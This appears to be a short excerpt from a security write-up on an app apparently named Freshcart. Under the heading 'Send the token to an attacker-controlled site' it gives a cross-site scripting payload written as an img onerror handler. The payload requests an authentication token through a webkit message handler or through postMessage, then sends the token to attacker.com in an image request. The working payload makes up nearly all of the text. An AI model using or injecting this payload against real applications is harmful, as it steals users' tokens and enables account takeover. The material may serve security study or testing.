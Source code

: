 <br />



![](/assets/img/mhl/Freshcart/3.jpg)



<br /><br />

**Send the token to an attacker-controlled site**

```javascript
<img src="x" onerror="(function(){
  window.addEventListener('message',e=>{
    if(e && e.data && e.data.token){
      // Send token to your URL
      var i = new Image();
      i.src='https://attacker.com?token='+encodeURIComponent(e.data.token);
    }
  },{once:true});
  if(window.webkit && window.webkit.messageHandlers && window.webkit.messageHandlers.retrieveToken){
    window.webkit.messageHandlers.retrieveToken.postMessage(null);
  }else{
    window.parent.postMessage({action:'retrieveToken'},'*');
  }
})()">
```
